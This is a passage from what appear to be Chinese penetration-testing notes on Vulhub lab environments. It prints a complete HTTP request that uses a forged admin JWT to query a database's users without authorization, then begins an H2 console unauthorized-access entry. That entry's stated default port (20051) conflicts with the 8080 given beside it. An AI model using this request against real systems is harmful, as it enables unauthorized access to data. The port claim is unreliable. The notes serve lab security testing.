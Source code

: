 2、发送数据包触发未授权

```
POST /query HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc2MzQ2MjY3fQ.NPhb55F0tpsp5X5vcN_IkAAGDfNzV5BA6M4AThhxz6A
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22



db=sample&q=show users
```

<img src="图片\Snipaste_2023-02-08_16-37-05.png" alt="Snipaste_2023-02-08_16-37-05" style="zoom:80%;" />

## H2database-未授权访问

https://vulhub.org/#/environments/h2database/h2-console-unacc/

https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e

默认端口：20051

After started the container, the spring-boot is listening on `http://your-ip:8080`, the management page is `http://your-ip:8080/h2-console/` by default
